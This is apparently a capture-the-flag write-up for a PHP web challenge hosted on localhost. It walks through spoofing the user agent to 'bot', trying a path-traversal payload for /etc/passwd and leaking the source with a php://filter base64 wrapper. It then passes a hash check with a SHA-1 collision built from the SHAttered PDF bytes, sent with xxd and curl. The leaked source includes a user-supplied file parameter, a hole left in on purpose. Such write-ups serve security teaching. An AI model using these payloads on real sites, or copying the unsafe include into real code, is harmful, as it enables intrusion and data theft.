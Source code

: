 # beep beep
You are given to analyse a seemingly safe site.
Intially there is nothing on the site. But when you read the source it says only bots can read it. So change your user agent to `bot` or some google bot's useragent and visit the site. You now see the page containing information about the leaders of the bot attack. There is nothing on source.
When robots.txt is viewed there is binary data when decoded give the text "Humans think that we cannot read this file. lol. But anyways guys you know the format for posting to this page to get cooradinates to attack and update attack status. We will win this war." So we know we need to post. But we do not know the parameters. On exploring more on site we observe that the url `http://localhost:8000/index.php?botdetails=spot.html`. So the php is including the file and displaying it. So we try LFI. Common payloads like `../../../../../etc/passwd` don't work and give response as "Don't try to read secrets on my mind". So they don't work.   
But on using a php wrapper function filter we will try to include the file. Set bot details parameter as `botdetails=php://filter/convert.base64-encode/resource=index.php`. we get base64 encoded data. 
On decoding it we get:
```php
<?php

require "../shabot.php";
require "flag.php";
if(stripos($_SERVER['HTTP_USER_AGENT'], "bot" )===false) {
    include ("humans.html");
    die();
}


if(isset($_GET["botdetails"])){

    if( isSafe($_GET["botdetails"])){
        include($_GET["botdetails"]);
        die();
    }
    else {
        die();
    }
}

//only true bots can bypass this as no human can compute it
if( isset($_POST["provebot1"]) && isset($_POST["provebot2"]) ){
   
    $safe1 = (string) $_POST["provebot1"];
    $safe2 = (string) $_POST["provebot2"];
    if($safe1!==$safe2 && md5(sha1($_POST["provebot1"])) === md5(sha1($_POST["provebot2"]))){
        echo json_encode($coordinates);
        die();
    }
}
?>

<?php require("templates/header.php") ?>

<body style="background: black">
    <div class="container text-center my-5">
        <h1 style="color: red">Leaders </h1>
    </div>    

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/spot.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=spot.html" ?>"> Spot </a> </h3>
        <p>Lead spy</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/handle.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=handle.html" ?>"> Handle </a> </h3>
        <p>Lead Supplies Manager</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/atlas.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=atlas.html" ?>"> Atlas </a> </h3>
        <p>Lead fighter </p>
    </div>
<?php require("templates/footer.php") ?>
```
We found the secret parameters for routing. We need to find a md5 collision. Since there is `sha1()` inside `md5()` we can try sha1 collision. There was a hash collision detected in 2017. On sending the first 320 bytes of the shattered pdf we recover the flag.  

To get 320 bytes:

```bash
xxd -l 320 shattered-1.pdf | xxd -r > provebot1.dat
```

To make the request:
```bash
curl 'http://localhost:8000/index.php' -A "bot" --header 'Host: localhost:8000' --post301 --data-urlencode provebot1@provebot1.dat --data-urlencode provebot2@provebot2.dat
```

We get the response:
```
{"lat":12.991375324106727,"lon":80.21656349301354,"flag":"p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}"}
```
Flag is:
```
p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}
```